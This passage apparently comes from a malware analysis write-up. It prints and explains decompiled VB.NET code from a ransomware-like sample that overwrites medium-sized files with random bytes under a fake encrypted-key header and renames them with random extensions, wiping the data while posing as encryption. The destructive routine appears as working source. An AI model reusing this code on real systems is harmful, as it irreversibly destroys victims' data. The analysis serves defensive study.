 This code combines AES encryption for the file's data and RSA encryption for the AES key.

### Medium-Sized Files Encrypting Process
```
Dim string2 As String = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4))
File.WriteAllText(files(i), Program.randomEncode(string2))
File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))

Public Shared Function random_bytes(length As Integer) As Byte()
	Dim random As Random = New Random()
	length += 1
	Dim array As Byte() = New Byte(length - 1) {}
	random.NextBytes(array)
	Return array
End Function

Public Shared Function randomEncode(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return String.Concat(New String() { "<EncyptedKey>", Program.Base64EncodeString(Program.RandomString(41)), "<EncyptedKey> ", Program.RandomString(2), Convert.ToBase64String(bytes) })
End Function

Public Shared Function Base64EncodeString(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return Convert.ToBase64String(bytes)
End Function

Public Shared Function RandomString(length As Integer) As String
	Dim stringBuilder As StringBuilder = New StringBuilder()
	For i As Integer = 0 To length - 1
		Dim c As Char = "abcdefghijklmnopqrstuvwxyz0123456789"(Program.random.[Next](0, "abcdefghijklmnopqrstuvwxyz0123456789".Length))
		stringBuilder.Append(c)
	Next
	Return stringBuilder.ToString()
End Function
```
#### File Manipulation

1.  **Generating a Random String Based on File Size**:
    
    -   `Dim string2 As String = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4))`: This line converts one quarter of the file's size (`fileInfo.Length / 4`) into an array of random bytes, and then into a UTF-8 string.
2.  **Rewriting and Renaming the File**:
    
    -   `File.WriteAllText(files(i), Program.randomEncode(string2))`: Rewrites the file with the content returned by the `randomEncode` method.
    -   `File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))`: Renames the file by adding a new randomly generated extension.

#### String Processing Methods
